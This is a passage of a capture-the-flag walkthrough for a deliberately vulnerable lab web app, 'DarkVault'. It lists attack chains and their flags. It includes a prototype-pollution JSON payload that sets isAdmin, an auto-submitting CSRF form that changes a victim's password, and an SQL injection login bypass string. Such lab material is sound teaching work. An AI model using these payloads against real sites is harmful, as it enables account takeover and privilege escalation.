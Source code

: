 **Attack Chain**:
1. Identify endpoint vulnerable to prototype pollution at `/api/merge-config`
2. Create payload to pollute Object prototype:
   ```json
   {
     "__proto__": {
       "isAdmin": true
     }
   }
   ```
3. Submit payload to endpoint
4. Verify pollution with check for `Object.prototype.isAdmin`
5. Observe behavior changes across the application
6. Achieve privilege escalation through prototype pollution

**Achievement**: Flag `DARK{pr0t0typ3_p0llut10n_m4st3r}`

### CSRF Attack for Account Takeover
**Vulnerability**: Missing CSRF protection
**Target**: State-changing functionality
**Objective**: Perform actions on behalf of victims

**Attack Chain**:
1. Identify state-changing function without CSRF token (e.g., password change)
2. Create malicious HTML form:
   ```html
   <form action="https://darkvault.local/user/change-password" method="POST" id="csrf-form">
     <input type="hidden" name="new_password" value="attacker_password">
     <input type="hidden" name="confirm_password" value="attacker_password">
   </form>
   <script>document.getElementById("csrf-form").submit();</script>
   ```
3. Host malicious page or embed in XSS payload
4. Trick victim into visiting malicious page
5. Form automatically submits, changing victim's password

**Achievement**: Flag `DARK{csrf_pr0t3ct10n_byp4ss3d}`

## Combined Attack Scenarios

### Complete Server Compromise
**Objective**: Full control of the application server

**Combined Attack Chain**:
1. **Initial Access**:
   - Bypass authentication with SQL injection: `' OR 1=1--`
   - Login as administrator

2. **Reconnaissance**:
   - Explore admin panel at `/admin`
   - Access site map at `/site-map`
   - Enumerate API endpoints at `/api`
